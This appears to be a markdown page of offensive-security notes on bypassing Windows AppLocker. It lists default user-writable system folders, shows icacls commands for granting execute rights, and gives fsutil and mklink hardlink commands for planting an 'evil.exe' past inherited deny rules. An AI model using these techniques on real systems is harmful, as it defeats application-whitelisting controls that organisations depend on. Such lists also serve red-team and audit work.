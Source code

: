 This list contains generic methods of bypassing AppLocker.

## Placing files in writeable paths

The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)
```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

If you can place a file or folder into the path you become the owner of that object and you can change the ACL either in GUI or using ICACLS. That includes adding Execute rights and more. We can use ICACLS via `icacls "FULL PATH TO EXE" /grant "USERNAME":F` here F signifies full control
If deny execute is inherit you can either disable inheritance or you can use hardlink to a binary file in another folder using one of these commands:
```
fsutil hardlink create c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 

mklink /h c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 
```
here "c:\windows\system32\fxstmp\evil.exe" is the new exe from any path in the above list
